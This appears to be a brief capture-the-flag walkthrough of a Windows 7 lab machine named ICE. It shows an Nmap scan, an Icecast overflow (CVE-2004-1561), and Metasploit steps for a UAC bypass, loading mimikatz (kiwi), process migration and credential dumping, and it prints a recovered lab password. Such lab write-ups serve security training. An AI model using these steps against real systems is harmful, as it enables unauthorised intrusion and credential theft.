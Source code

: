 # ICE 

# IP - 10.10.110.47

# Nmap Scan

```
Host is up (0.17s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2020-04-07T06:21:11+00:00; +1m26s from scanner time.
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h16m26s, deviation: 2h30m00s, median: 1m25s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:65:e9:6e:54:2a (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-04-07T01:20:56-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-07T06:20:55
|_  start_date: 2020-04-07T06:15:25
```
# Vulnerabilities

```1.**Icecast** -Execute Code overflow - CVE 2004-1561```

# priv-esc using Metasploit

``` run post/mutli/recon/local_exploit_suggestor``` 

## We found - 
``` exploit/windows/local/bypassuac_eventvwr```

# Loading mimikartz - 
```load kiwi```

## Migrate into - spoolsv.exe
```migrate spoolsv.exe```


# Passwords found using Kiwi 
```creds_all```
```Password -DARK - Password01!```

# Exploit_db Script for Icecast 

## link - 
**https://exploit-db.com/exploits/568**

